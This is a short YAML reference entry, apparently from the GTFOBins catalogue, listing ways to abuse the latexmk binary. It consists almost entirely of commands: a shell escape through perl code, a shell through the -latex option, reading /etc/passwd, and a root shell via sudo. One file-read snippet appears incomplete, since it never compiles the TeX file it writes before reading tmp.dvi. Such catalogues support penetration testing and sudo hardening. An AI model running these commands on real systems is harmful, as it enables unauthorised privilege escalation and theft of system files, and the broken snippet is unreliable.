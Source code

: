 ```yaml
---
description: This allows to execute [`perl`](/gtfobins/perl/) code.
functions:
  shell:
    - code: |
        latexmk -e 'exec "/bin/sh";'
    - code: |
        latexmk -latex='/bin/sh #' /dev/null
  file-read:
    - code: |
        latexmk -e 'open(X,"/etc/passwd");while(<X>){print $_;}exit'
    - description: The read file will be part of the output.
      code: |
        TF=$(mktemp)
        echo '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}' >$TF
        strings tmp.dvi
  sudo:
    - code: sudo latexmk -e 'exec "/bin/sh";'
---
```

